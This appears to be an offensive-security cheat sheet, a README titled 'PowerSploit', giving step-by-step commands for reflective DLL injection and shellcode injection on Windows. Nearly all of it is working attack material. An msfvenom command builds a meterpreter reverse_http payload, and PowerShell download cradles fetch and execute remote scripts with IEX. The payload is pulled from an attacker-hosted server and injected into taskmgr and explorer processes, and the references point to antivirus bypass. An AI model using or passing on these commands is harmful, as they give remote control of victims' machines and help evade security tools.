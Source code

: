 # PowerSploit

## 01 - Reflective DLL Injection

### 1.1 - Simple Reflective DLL Injection

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 exitfunc=thread -f dll -o shellcode.dll

$ sudo python -m http.server [-d /path/to/directory/] 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe

$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode.dll"))

IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))

$procid = (Get-Process -Name taskmgr).Id

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

### 1.2 - Reflective DLL Injection with encoded base64 shellcode DLL

TODO: Figure out the base64 encoding problem with DLL files

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 EXITFUNC=thread -f dll -o shellcode.dll

$ pwsh

PS /home/user> $file = 'shellcode.bin'

PS /home/user> [byte[]] $raw_bytes = [IO.File]::ReadAllBytes($file)

PS /home/user> $encoded = [Convert]::ToBase64String($raw_bytes)

PS /home/user> [IO.File]::WriteAllBytes('shellcode-encodedb64.txt', $encoded)

PS /home/user> exit

$ sudo python -m http.server [-d /path/to/directory/] 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe  
  
$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode-encodedb64.txt"))  
  
$decoded = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($bytes))  
  
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))  
  
$procid = (Get-Process -Name taskmgr).Id  
  
Invoke-ReflectivePEInjection -PEBytes $decoded -ProcId $procid
```

## 02 - Invoke-Shellcode

```powershell
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/code_execution/Invoke-Shellcode.ps1"))

$procid = (Get-Process -Name explorer).Id

Invoke-Shellcode -ProcessId $procid -Shellcode @(<ps1_shellcode_format>)
```

---
## References

- [charnim: Invoke-ReflectivePEInjection](https://github.com/charnim/Invoke-ReflectivePEInjection.ps1)

- [Adamn Chester (XPN) YouTube Video: Bypass AV with Invoke-ReflectivePEInjection](https://www.youtube.com/watch?v=byMBx4q-vYo)

- [monoxgas: sRDI](https://github.com/monoxgas/sRDI)